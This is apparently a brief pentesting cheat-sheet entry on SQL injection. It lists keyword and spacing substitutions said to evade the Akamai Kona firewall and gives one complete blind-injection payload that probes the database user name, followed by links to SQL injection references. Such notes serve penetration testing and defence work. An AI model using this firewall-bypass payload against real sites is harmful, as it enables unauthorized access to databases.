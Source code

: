 ## SQLI

**Akamai Kona Bypass**

* `MID` instead of `SUBSTRING`
* `LIKE` instead of `=`
* `/**/` instead of a `space`
* `CURRENT_USER` instead of `CURRENT_USER()`
* ` "` instead of `'`

Final example: 

```sql
444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#
```

**Blogs**

* http://pentestmonkey.net/blog/mssql-sql-injection-cheat-sheet/
* http://isc.sans.edu/diary.html?storyid=9397
* http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/
* http://xd-blog.com.ar/descargas/manuales/bugs/full-mssql-injection-pwnage.html
* http://securityoverride.com/articles.php?article_id=1&article=The_Complete_Guide_to_SQL_Injections
* http://websec.wordpress.com/2010/03/19/exploiting-hard-filtered-sql-injections/
* http://sqlzoo.net/hack/
* http://www.sqlteam.com/article/sql-server-versions
* http://www.krazl.com/blog/?p=3
* http://www.owasp.org/index.php/Testing_for_MS_Access
* http://web.archive.org/web/20101112061524/http://seclists.org/pen-test/2003/May/0074.html
* http://web.archive.org/web/20080822123152/http://www.webapptest.org/ms-access-sql-injection-cheat-sheet-EN.html
* http://www.youtube.com/watch?v=WkHkryIoLD0
* http://layerone.info/archives/2009/Joe%20McCray%20-%20Advanced%20SQL%20Injection%20-%20L1%202009.pdf
* http://vimeo.com/3418947
* http://sla.ckers.org/forum/read.php?24,33903
* http://websec.files.wordpress.com/2010/11/sqli2.pdf
* http://old.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/
* http://ha.ckers.org/sqlinjection/
* http://lab.mediaservice.net/notes_more.php?id=MSSQL
